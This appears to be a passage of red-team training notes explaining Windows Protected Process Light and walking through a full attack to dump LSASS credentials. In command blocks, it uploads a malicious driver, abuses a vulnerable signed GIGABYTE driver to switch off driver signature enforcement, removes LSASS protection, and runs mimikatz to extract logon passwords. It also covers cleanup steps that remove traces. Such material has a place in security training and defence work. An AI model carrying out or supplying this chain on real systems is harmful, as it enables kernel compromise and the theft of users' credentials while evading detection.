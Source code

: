 Protected Process (PP) and Protected Process Light (PPL) is a relatively new mechanism on windows which was first designed as protection for DRM. It worked fundamentally by limiting the access you could obtain to a protected process, such as PROCESS_QUERY_LIMITED_INFORMATION or PROCESS_TERMINATE, but not PROCESS_VM_READ or anything else that would allow you to circumvent the DRM requirements. 

The technology has been expanded to help protect other windows processes - notably LSAA and AV engines. This is not enforced by AV or EDR protection but by the windows kernel. You may think of it as an improved ASR, but the same bypasses will not work here. [PPEnum](https://github.com/rasta-mouse/PPEnum) BOF shows that LSASS is a PPL with a signer level of Lsa.

The [documented](https://docs.microsoft.com/en-us/windows/win32/procthread/zwqueryinformationprocess) \_PS_PROTECTED_SIGNER struct provides a view of the possible signers that can be used.  Because of the various moving parts, there is an order of protection precedence that the kernel considers.  PP always trumps PPL, so a PPL can never obtain full access to a PP regardless of its signer.  A PP can gain full access to another PP or PPL if the signer is equal or greater; and a PPL can gain full access to another PPL if the signer is equal or greater.

Userland PPL bypasses come and go, some of the most w3ell known like [PPLDump](https://github.com/itm4n/PPLdump) However, a guaranteed way to get around PPL is with a driver. There are several projects that can do this such as [PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller), [mimidrv](https://github.com/gentilkiwi/mimikatz/tree/master/mimidrv) or you can write a [custom driver](https://training.zeropointsecurity.co.uk/courses/offensive-driver-development). Elevating from a local admin into the kernel is not a security boundary, so this is not seen as a serviceable vulnerability by microsoft. 

However you cannot load drivers taht are not legitimately signed unless windows test signing mode is enabled. For example, using an admin session workstation 2, upload our malicious driver. *Note* this is the driver written in the offensive driver development course. To run the driver, create and start a kernel-mode service.  However, we'll see that it won't run.

```
getuid
cd C:\Windows\System32\drivers
upload C:\Tools\RedOctober\RedOctober.sys
run sc create redoct type= kernel binPath= C:\Windows\System32\drivers\RedOctober.sys 
run sc start redoct
```

In order to load this driver, we need to bypass driver signature enforcement (DSE) first, for which we need an arbitrary kernel memory write primitive. A common way to do this is by 1. loading a known vulnerable, yet legitimately signed driver, 2. use it to disable DSE, 3. load the malicious driver, 4. then re-enable DSE. The [LOLDrivers](https://www.loldrivers.io/) project contains a massive collection of drivers that could be used for this purpose.  In this module, we'll use an old GIGABYTE driver, gdrv.sys.

Step 1. uploading and creating a kernel service for the malicious driver
```
upload C:\Tools\cobaltstrike\gdrv\gdrv.sys
run sc create gdrv type= kernel binPath= C:\Windows\System32\drivers\gdrv.sys
run sc start gdrv
```

Step 2. disabling dse with a BOF script called disable_dse and enable_dse:
```
disable_dse
```

Step 3. Start the driver with dse disabled:
```
run start redoct
```

Step 4. Re-enable dse so we don't blue screen the machine
```
enable_dse
```

Then we can unload and remove the driver from the system:
```
run sc stop gdrv
run sc delete gdrv
rm gdrv.sys
```

## Dumping LSASS

Because protected processes are hierarchical, there are two ways to tackle this.

1. Remove the protection level from LSASS.
2. Elevate the protection level of a process we control to be greater than LSASS.

Because mimikatz is fork and run it's a little easier to just remove the protection from LSASS. As with the GIGABYTE driver, there is a BOF and aggressor script to call the correct IOCTL from the RedOctober driver, the command is simply `unprotect_process \<pid>`

```
ppenum 652
unprotect_process 652
ppenum 652
```

With the protection on LSASS disabled, Mimikatz can work its magic.

```
mimikatz !sekurlsa::logonpasswords
```